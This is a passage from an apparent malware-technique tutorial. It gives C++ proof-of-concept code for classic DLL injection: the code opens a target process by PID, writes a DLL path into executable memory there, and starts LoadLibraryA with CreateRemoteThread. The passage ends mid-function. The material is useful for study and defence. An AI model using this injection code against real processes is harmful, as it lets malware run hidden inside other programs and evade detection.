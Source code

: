 ![dll7](images/dll-injection7-drawio.png)

So, this is simple dirty PoC source code in C++:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\malware.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
```